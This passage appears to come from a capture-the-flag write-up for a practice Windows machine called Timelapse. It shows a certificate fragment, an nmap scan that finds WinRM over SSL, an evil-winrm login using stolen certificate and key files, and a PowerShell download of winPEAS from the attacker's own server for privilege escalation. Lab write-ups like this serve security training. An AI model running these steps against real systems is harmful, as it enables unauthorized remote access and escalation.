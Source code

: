 ```
  15   │ MbSnWEoruaTrC8FJHxB8dbapf341ssp6AK37+MBrq7ZX2W74rcwLY1pLM6giLkcs
  16   │ yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
  17   │ MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
  18   │ DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
  19   │ rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
  20   │ m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
  21   │ 3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
  22   │ fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
  23   │ hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
  24   │ nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
  25   │ -----END CERTIFICATE-----
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
## Obtaining the User Flag
***

I got stuck here for quite a long time. After googling a bit I saw that windows winrm runs on port 5985 and I didn't scan all ports when doing my nmap. I decided to run my nmap again with the -p- option and I saw that this service was running with ssl: 
```
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2022-07-05T20:40:19+00:00; +7h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```
Then I used evil-winrm to log in using this key and cert files and I was able to obtain the user flag at the user Desktop: 
```
ruby /home/adri/Desktop/adri/utils/evil-winrm/evil-winrm.rb -S -i 10.10.11.152 -c cert.pem -k key.pem

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```
## Privilege Escalation
*** 

To start with the privilege escalation I created an http server using python at the same location as winPEASx64.exe and, inside the windows machine, I uploaded the executable using the ```Invoke-WebRequest``` cmdlet (IWR) using my IP inside the VPN: 
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> IWR http://10.10.14.63:8000/winPEASx64.exe -OutFile winPEASx64.exe
```
